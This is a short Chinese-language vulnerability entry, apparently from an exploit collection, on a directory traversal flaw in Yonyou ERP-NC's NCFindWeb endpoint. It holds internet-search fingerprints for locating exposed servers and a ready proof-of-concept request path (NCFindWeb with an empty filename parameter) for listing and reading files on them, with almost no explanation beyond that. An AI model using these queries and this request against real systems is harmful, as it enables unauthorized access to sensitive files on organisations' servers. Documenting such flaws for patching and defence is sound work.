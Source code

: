 # 用友 ERP-NC NCFindWeb 目录遍历漏洞

## 漏洞描述

用友 ERP-NC 存在目录遍历漏洞，攻击者可以通过目录遍历获取敏感文件信息。

## 漏洞影响

```
用友 ERP-NC
```

## 网络测绘

```
app="用友-UFIDA-NC"
# or
icon_hash="1085941792"
```

## 漏洞复现

poc

```plain
/NCFindWeb?service=IPreAlertConfigService&filename=
```

![](images/用友-ERP-NC-NCFindWeb-目录遍历漏洞/image-20240704143115260.png)



